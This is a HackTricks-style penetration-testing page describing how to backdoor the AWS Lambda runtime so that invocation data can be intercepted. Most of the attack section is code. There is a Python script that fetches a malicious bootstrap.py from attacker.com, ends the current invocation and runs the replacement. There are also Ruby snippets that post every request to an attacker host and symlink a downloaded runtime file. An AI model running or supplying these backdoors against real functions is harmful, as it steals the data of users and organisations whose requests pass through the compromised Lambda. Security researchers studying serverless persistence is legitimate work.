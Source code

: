 # AWS - Steal Lambda Requests

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Introduction <a href="#python-runtime" id="python-runtime"></a>

This attack supposes that you have some kind of **access over a running Lambda**.\
Also, something important to note is that **Lambda invocations aren’t completely separated from each other but are isolated**. They could run, though not simultaneously, in the same execution environment. With that in mind, let’s start dissecting that environment.

### Isolation

Lambda isolation uses thi cgroups:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

As the prefix 'sandbox' didn’t match any common container engine(docker, podman, LXD, rkt), it could be a proprietary container engine, which could be internally using an open source container runtime like [runC](https://github.com/opencontainers/runc).

### How Lambdas work  <a href="#python-runtime" id="python-runtime"></a>

This appears to be the python Lambda architecture:

<figure><img src="../../../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

1. A process outside the container, referred to as the "**slicer"** in the init binary, sends invocation events to the **init** process via shared memory.
2. The init process sets up an HTTP server on port 9001 (hard-coded), with several exposed endpoints:
   1. `/2018-06-01/runtime/invocation/`**`next`** – get the next invocation event
   2. `/2018-06-01/runtime/invocation/{invoke-id}/`**`response`** – return the handler response for the invoke
   3. /2018-06-01/runtime/invocation/{invoke-id}/**error** – return an execution error
3.  In `bootstrap.py` the following loop **queries the init process for a new event**, and then **calls the user’s function** to handle it (here, the request handler you uploaded runs).\


    <figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>
4. The **handler response is then sent back to the init process** through one of the following endpoints:
   1. `/{invoke-id}/response` – if the user handler executed successfully
   2. `/{invoke-id}/error` – if an exception was raised during the handling of the invoke

## Technique Summary <a href="#python-runtime" id="python-runtime"></a>

It's possible to **substitute the bootstrap script** with malicious code to be able to **intercept data** sent to the Lambda function.\
Note tha**t other engines in other languages** have another **bootstrap** **script** written in that language, so this can be done **also in other lambdas using other languages**, not only in python.

## Python <a href="#python-runtime" id="python-runtime"></a>

From the lambda, download **`/var/runtime/bootstrap.py`**  (or just spin up **your own lambda** and get it) and add the backdoor that will be leaking all the data sent to Lambda. You just need to add a couple of lines such as:

<figure><img src="../../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Replacing Runtime

Now with the new **`boostrap.py` created**, it's possible to **download** it, **end the current lambda** **invocation** and run it to **replace** the legit one:

```python
import os
from urllib import request

# Download bootstrap.py from your server
r = request.urlopen('http://attacker.com/bootstrap.py')
with open('/tmp/bootstrap.py', 'w') as f:
    f.write(r.read().decode('utf-8'))

# Get invocation ID and end it
req = request.urlopen("http://127.0.0.1:9001/2018-06-01/runtime/invocation/next")
inv_id = req.headers["Lambda-Runtime-Aws-Request-Id"]
req = request.Request(f"http://127.0.0.1:9001/2018-06-01/runtime/invocation/{inv_id}/response", data=b"null")
req.add_header("Content-Type", "application/x-www-form-urlencoded")
request.urlopen(req)

# Start your bootstrap.py
os.system("python3 /tmp/bootstrap.py")
```

Or you could also use [twist\_runtime.py](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/twist\_runtime.py), which will end the invocation as done previously, run the new bootstrap and exfiltrate the information.

{% hint style="warning" %}
If a lambda function is not used for 5-15 minutes it will be shut down, and all the changes will be lost the next time it's invoked.
{% endhint %}

## Ruby Runtime <a href="#ruby-runtime" id="ruby-runtime"></a>

In ruby, the file you want to backdoor is **`/var/runtime/lib/runtime.rb`** file (get it from the system or running your own lambda).

Adding a backdoor is as simple as done in the python version:

```ruby
# Add a require at the beggining
require 'json'
require 'net/http'
[...]
# In the loop where the invocation is treated
begin 
    context = lambdaContext.new(raw_request)
    uri = URI('http://attacker:80/leak')
    Net::HTTP.post(uri,JSON.generate(request))
    [...]
```

Then, you just need to do what you did in the python version with just a change:

* **Download the backdoor in a directory**
* **Symlink** `/var/runtime/lib/*` with the directory where the backdoor is
* Finish the current lambda invocation

```ruby
# You can get a ruby shell with 'irb' or run from shell with ruby -e "..."

require 'net/http'

# Downloading new script
uri = URI("http://attacker/rumtime.rb")
r = Net::HTTP.get_response(uri)
File.write("/tmp/rumtime.rb", r.body)

# Create symlink
ln -s /var/runtime/lib/* /tmp

# Terminate currrent invocation
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
req = Net::HTTP.get_response(uri)
inv_id = req.header['Lambda-Runtime-Aws-Request-Id']
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+inv_id+'/response')
Net::HTTP.post(uri, 'null')
```

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
